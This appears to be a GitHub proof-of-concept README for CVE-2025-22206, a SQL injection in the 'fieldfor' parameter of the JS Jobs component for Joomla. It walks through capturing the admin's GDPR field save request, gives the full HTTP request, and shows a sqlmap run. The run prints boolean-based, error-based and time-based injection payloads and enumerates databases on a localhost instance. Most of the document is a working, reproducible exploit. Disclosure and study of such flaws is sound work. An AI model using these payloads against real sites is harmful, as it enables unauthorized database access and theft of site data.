# CVE-2025-22206: SQL injection in JS jobs component version 1.1.5 - 1.4.2 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22206

**JS Jobs:** https://joomsky.com/js-jobs-joomla

**Writeup:** https://decrypt.locker/obtaining-my-first-cve

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.2 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'fieldfor' parameter in the GDPR Field feature.

## POC
To exploit this vulnerability, log in as the site administrator and go to 'Dashboard >> GDPR Fields >> + Add New Field >> Add Fields >> Field Title: test >> Field Text: test >> Save Fields'.

![Alt text](1.png)

Then capture the Save Fields HTTP request with Burp Suite and save the request to a file (req.txt). Then run SQLMap through the file to exploit the SQLi vulnerability (see below).

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; a3030abf7606e950783a31b16179a889=1c61b4c6f83b5569f9484c6888412100; f06339f02055c32957cf8cda32f8587f=48b5f4615da4721440ffe8ec49d08347
Connection: keep-alive

check=89cb1c0cc02cf810832f5e4c6c7b7386&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save+Fields&89cb1c0cc02cf810832f5e4c6c7b7386=1
```

**Exploit:**
```
ubuntu@host:~/tools$ python3 sqlmap-dev/sqlmap.py -r ~/test/req.txt --batch --dbs -p fieldfor

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: fieldfor (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=(SELECT (CASE WHEN (7446=7446) THEN 14 ELSE (SELECT 6203 UNION SELECT 9943) END))&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND GTID_SUBSET(CONCAT(0x71786a6271,(SELECT (ELT(6091=6091,1))),0x716a766b71),6091)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND (SELECT 7659 FROM (SELECT(SLEEP(5)))kQDv)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
